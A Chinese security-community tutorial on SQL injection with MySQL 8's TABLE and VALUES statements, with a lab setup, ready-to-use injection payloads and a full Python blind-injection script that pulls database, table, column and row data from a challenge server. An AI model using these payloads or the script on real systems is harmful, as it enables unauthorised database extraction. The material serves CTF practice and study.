

# Mysql8新特性:table注入分析总结-先知社区

> **来源**: https://xz.aliyun.com/news/16545  
> **文章ID**: 16545

---

### 环境搭建

* docker拉镜像

  ```
  docker pull mysql:8.0.21 docker run -d --name=mysql8 -p 3306:3306 -e MYSQL_ROOT_PASSWORD=123456 mysql:8.0.21
  ```
* 搭建SQL注入环境

1.下载vulstudy综合环境，启动里面sql注入靶场，在容器内修改sqli-lab的配置文件

```
#安装vim sed -i s@/deb.debian.org/@/mirrors.aliyun.com/@g /etc/apt/sources.list apt-get clean && apt-get update && apt-get install vim #修改sqli-lab的配置文件 
vim /app/sql-connections/db-creds.inc
```

填写mysql相关连接信息，数据库的IP填宿主机IP(我这里是172.30.102.102)

2.然后在mysql8容器里通过下面sql语句修改默认认证方式(因为mysql8.0默认认证方式和5不一样)：

```
ALTER USER 'root' IDENTIFIED WITH mysql_native_password BY '123456';

```

3.重新配置数据库，环境搭建完成。

### Mysql8的语法新特性

官方文档 <https://dev.mysql.com/doc/>

#### TABLE statement

与`SELECT`相似，作用是列出表中所有内容

```
TABLE table_name [ORDER BY column_name] [LIMIT number [OFFSET number]]

```

如下显示的 `union`是 等效于以下语句：

```
mysql> SELECT * FROM t1 UNION SELECT * FROM t2;

```

`table t`简单理解成`select * from t`

```
mysql> TABLE t1 UNION TABLE t2;

+---+----+
| a | b  |
+---+----+
| 2 | 10 |
| 5 |  3 |
| 7 |  8 |
+---+----+
3 rows in set (0.00 sec)

```

**与SELECT的区别**：

> 1.TABLE始终显示表的所有列  
> 2.TABLE不允许对行进行任意过滤，即TABLE 不支持任何WHERE子句

可以用来获取所有表名

```
table information_schema.schemata;

```

#### Values statement

`VALUES`是一个 DML 语句，它 以表形式返回一组一行或多行。换句话说，它 是一个表值构造函数，也可以作为一个独立的 SQL 语句。

参考官方文档

```
VALUES row_constructor_list [ORDER BY column_designator] [LIMIT number]

row_constructor_list:

    ROW(value_list)[, ROW(value_list)][, ...]

value_list:
    value[, value][, ...]

column_designator:
    column_index

```

举例：

```
mysql> VALUES ROW(1,-2,3), ROW(5,7,9), ROW(4,6,8) ORDER BY column_1;
+----------+----------+----------+
| column_0 | column_1 | column_2 |
+----------+----------+----------+
|        1 |       -2 |        3 |
|        4 |        6 |        8 |
|        5 |        7 |        9 |
+----------+----------+----------+
3 rows in set (0.00 sec)

```

> 同时`VALUES`也可以与 `select` 语句或 `table`语句联合使用。  
> 可用来判断列数，报错说明列数不对,可以代替`order by`进行列数盲注
>
> ```
> select * from table where id=1 union values row(1,2,3)
> ```

### 盲注

因为`table`不能控制列数，所以如果列数不一样需要盲注

使用如下语句，盲注比较顺序是自左到右，是两个元组进行比较：  
比如：(id, user ,passwd) 和 (1 , 'Tom', '123' )

```
select ((1,'','')<(table user limit 1));
+-----------------------------------+
| ((1,'','')<(table users limit 1)) |
+-----------------------------------+
|                                 1 |
+-----------------------------------+
1 row in set (0.00 sec)

select ((2,'','')<(table user limit 1));
+-----------------------------------+
| ((2,'','')<(table user limit 1)) |
+-----------------------------------+
|                                 0 |
+-----------------------------------+
1 row in set (0.00 sec)

select ((1,'T','')<(table user limit 1));
+-----------------------------------+
| ((1, 'T','')<(table useR limit 1)) |
+-----------------------------------+
|                                 0 |
+-----------------------------------+
1 row in set (0.00 sec)

```

> 注意判断的时候后一个列名一定要用字符表示，不能用数字，不然判断到前一个最后一个字符会判断不出

### NewSQL Demo

环境如下，查询`id=1`会有结果，但是题目办掉了`select`以及`union`，相应的我们可以用MYSQL8的新特性`table`来进行查询，bool或者时间盲注都可以



自己写了一个布尔盲注的脚本如下：

```
import requests
import time
import string
url = 'http://152.136.11.155:10111/'
chars="0123456789_abcdefghijklmnopqrstuvwxyz{}!?" #26+10+1+4=


def str2hex(name):
    res = ''
    for i in name:
        res += hex(ord(i))
    res = '0x' + res.replace('0x','')
    return res
def dbs():
    for num in range (10):
        i = 0
        j = 0
        db = ''
        while True:
            head = 32
            tail = 127
            i += 1
            while head < tail:
                j += 1
                mid = (head + tail) //2
                payload = f"1 and ('def',{str2hex(db+chr(mid))},'',4,5,6)>(table information_schema.schemata limit "+str(num)+",1)--+"
                param = "?id=" + payload
                #data = {"id": payload}
                r = requests.get(url+param)
            #r = requests.post(url, data=data)
                if "psych" in r.text:
                    tail = mid
                else:
                    head = mid+1
            if head != 32:
                if( chr(head-1)==' 'and db[-1]==' ' ):
                    break
                db+= chr(head-1)
                print(db)
            else:
                break

def tables_n(): #无列名盲注爆数据表开始行数(可修改)
    #修改数据库名
    database='cnss'
    payload = "1 and ('def','"+database+"','','',5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21)<(table information_schema.tables limit {},1)--+"
    for i in range(0,10000):
        payloads = payload.format(i)
        urls = url +"?id="+ payloads
        r = requests.get(url=urls)
        if 'psych'  in r.text:
            char = chr(ord(database[-1])+1)
            database = database[0:-1]+char
            payld = "1 and ('def','"+database+"','','',5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21)<(table information_schema.tables limit "+str(i)+",1)--+"
            urls = url + "?id="+payld
            res = requests.get(url=urls)
            #print(i)
            if 'psych' not in res.text:
                print('从第',i,'行开始爆数据表')   #判断开始行数
                n = i
    return n

def tables():
    #获取爆数据表开始行数
    #num=tables_n()
    num=322
    #修改数据库名
    database='cnss'
    table = ''
    i = 0
    j = 0
    while True:
        head = 32
        tail = 127
        i += 1
        while head < tail:
            j += 1
            mid = (head + tail) //2
            #需要自行更换数据库名字
            payload = f"1 and ('def','{database}',{str2hex(table+chr(mid))},'',5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21)>(table information_schema.tables limit "+str(num)+",1)--+"
            param = "?id=" + payload
                #data = {"id": payload}
            r = requests.get(url+param)
                #r = requests.post(url, data=data)
            if "psych" in r.text:
                tail = mid
            else:
                head = mid+1
        if head != 32:
            if(chr(head-1)==' 'and table[-1]==' ' ):
                break
            table+= chr(head-1)
            print(table)
        else:
            break


def columns_n(): #无列名盲注爆字段开始行数(可修改)
    #可修改数据库名和表名
    database='cnss'
    table='cn55'
    payload = "1 and ('def','"+database+"','"+table+"','',5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22)<(table information_schema.columns limit {},1)--+"
    for i in range(3400,10000):
        payloads = payload.format(i)
        urls = url + "?id="+payloads
        r = requests.get(url=urls)
        if 'psych' in r.text:
            char = chr(ord(table[-1])+1)
            table = table[0:-1]+char
            payld = "1 and ('def','"+database+"','"+table+"','',5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22)<(table information_schema.columns limit "+str(i)+",1)--+"
            urls = url + "?id="+payld
            res = requests.get(url=urls)
            #print(i)
            if 'psych' not in res.text:
                print('从第',i,'行开始爆字段')   #判断开始行数
                n = i
    return n

def columns():
    #获取爆数据表开始行数
    #num=columns_n()
    num=3355
    #可修改数据库名和表名
    database='cnss'
    table='cn55'
    column = ''
    i = 0
    j = 0
    while True:
        head = 20
        tail = 127
        i += 1
        while head < tail:
            j += 1
            mid = (head + tail) //2
            #需要自行更换数据库名字
            payload = f"1 and ('def','cnss','cn55',{str2hex(column+chr(mid))},'',6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22)>(table information_schema.columns limit "+str(num)+",1)--+"
            param = "?id=" + payload
                #data = {"id": payload}
            r = requests.get(url+param)
                #r = requests.post(url, data=data)
            if "psych" in r.text:
                tail = mid
            else:
                head = mid+1
        if head != 32:
            if(chr(head-1)==' 'and column[-1]==' ' ):
                break
            column+= chr(head-1)
            print(column)
        else:
            break
def datas():
    #可修改数据库名和表名
    database='cnss.'
    table=database+'cn55'
    column = ''
    num=7
    i = 0
    j = 0
    while True:
        head = 32
        tail = 127
        i += 1
        while head < tail:
            j += 1
            mid = (head + tail) //2
            #需要自行更换列数，可以补0
            payload = f"1 and ('{num+1}',binary'{column+chr(mid)}')>(table {table} limit "+str(num)+",1)--+"
            param = "?id=" + payload
                #data = {"id": payload}
            r = requests.get(url+param)
                #r = requests.post(url, data=data)
            if "psych" in r.text:
                tail = mid
            else:
                head = mid+1
        if head != 32:
            column+= chr(head-1)
            print(column)
        else:
            break

if __name__ == '__main__':
    #dbs()
    datas()

```

#### 脚本分析

采用二分法来提高盲注速度，但同样有缺点，当数据库不区分大小写时，盲注的结果会出错，我的解决办法是，使用`binary`字段来区分大小写。

大小写的问题。在对最后数据表的字段爆破的时候，最好加上binary，我猜测可能是因为这个：

lower\_case\_table\_names 的值：

如果设置为 0，表名将按指定方式存储，并且在对比表名时区分大小写。  
如果设置为 1，表名将以小写形式存储在磁盘上，在对比表名时不区分大小写。  
如果设置为 2，则表名按给定格式存储，但以小写形式进行比较。  
此选项还适用于数据库名称和表别名。有关其他详细信息，请参阅第 9.2.3 节 “标识符区分大小写"。

由于 MySQL 最初依赖于文件系统来作为其数据字典，因此默认设置是依赖于文件系统是否 区分大小写。

在 Windows 上，默认值为 1。在 macOS 上，默认值是 2。在 Linux 上，不支持值 2；服 务器会将该值设置为 0。

因为题目大多是在linux上，所以这个的值为0，所以爆表名库名之类的时候，即使不加上binary，也会区分大小写，但是对于真正的数据表，如果不加上binary的话，是不区分大小写的，所以会出问题。

### 通常的注入步骤

#### 1.判断列数

使用order by语句判断：

```
1 order by 2--+   
1 order by 3--+

```

#### 2.使用values判断回显位

```
-1  union values row(1,2)--+

```

#### 3.爆库爆表爆字段爆数据

* 爆`database()`

  ```
  -1' union values row(1,database(),3)--+
  #或利用盲注1' and ascii(substr((database()),1,1))=115--+   即s

  ```
* 爆所有库，通过limit控制第几个库名  
  ```r
  information_schema.schemata`表有6列  
  因为schemata表中的第一列是def，不需要判断，所以可以直接判断库名

1 and ('def','m','',4,5,6)<=(table information\_schema.schemata limit 0,1)--+ #回显正常  
1 and ('def','n','',4,5,6)<=(table information\_schema.schemata limit 0,1)--+ #回显错误  
得到第1个数据库名的第一个字符为m

```
#### 4. 爆数据表

`information_schema.tables`表有21列

```sql
1 and ('def','security','users','',5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21)<=(table information_schema.tables limit 310,1)--+ #第一个表users

1 and ('def','security','secret','',5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21)<=(table information_schema.tables limit 311,1)--+ #第二个表secret
```

前两个字段都是确定的，第二个是数据库名。

> 注意：还需要爆破数据表所在的行也就是 `limit 310`

#### 5. 爆字段名

`information_schema.columns`表有22列 ，方法和上面一样，同样需要爆破数据列所在的行数

```
1 and ('def','security','users','id','',6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22)<=(table information_schema.columns limit 3380,1)--+ #users表第一个字段为id


1 and ('def','security','users','username','',6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22)<=(table information_schema.columns limit 3381,1)--+ #users表，第二个字段为username

```

#### 6. 爆数据

通过limit控制数据的行

```
#table users limit 1也就是table users limit 0,1
#1 and (1,'d','')<=(table users limit 0,1)--+ #正常
#1 and (1,'e','')<=(table users limit 0,1)--+ #错误

```
